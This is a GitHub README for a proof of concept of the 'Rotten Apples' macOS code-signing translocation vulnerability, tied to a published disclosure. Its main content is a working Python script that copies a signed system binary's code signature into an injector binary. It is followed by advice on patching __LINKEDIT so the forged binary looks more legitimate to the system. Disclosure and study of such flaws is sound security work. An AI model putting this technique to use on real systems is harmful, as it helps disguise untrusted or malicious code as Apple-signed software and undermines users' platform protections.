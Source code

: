 # Rotten-Apples
macOS codesigning translocation vulnerability. (10.x -> 11.3.1)

Original article:
https://occamsec.com/rotten-apples-macos-codesigning-translocation-vulnerability/

This document serves to explain how to use the PoC described in the Rotten Apples vulnerability disclosure.

## The Target Binary
Compile it, sign it, run it once. Best done with XCode as it automates this process.

## The Victim Binary

Use the `lipo` command line tool to extract the x64 arch of a system binary of your choice. Make sure that the binary is a thin binary and not a fat binary with just one architecture, as LIEF has problems with the new universal file format.

### Binary Modification

```python
# -*- coding: utf8 -*-
# /usr/bin/python3
# RottenApples.py - macOS Code-Signature Translocation vulnerability
# 2021-09-21
# Dependencies: lief (pip3 install lief), x64 Mac
# License: WTFPL
import lief, sys

app = lief.parse('vmmap-x64')
f = open('vmmap-x64', 'rb')
f.seek(app.code_signature.data_offset)
signature = f.read(app.code_signature.data_size)
with open("code.sig", "wb+") as outfile:
    outfile.write(signature)
    outfile.close()
    print("Wrote detached signature.")

app2 = lief.parse('osxinj')
f2 = open('osxinj', 'r+b')
f2.seek(app2.code_signature.data_offset)
f2.write(signature)
f2.close()
```

The above snippet should be enough for transplanting the code signature into your target. In this example, we're transplanting the signature from vmmap into scen's osxinj.

Further steps to make the binary appear more appear more legitimate to the system can be accomplished by patching `_LINKEDIT` to mirror that of the victim binary. This will fix some of the CDHashes.
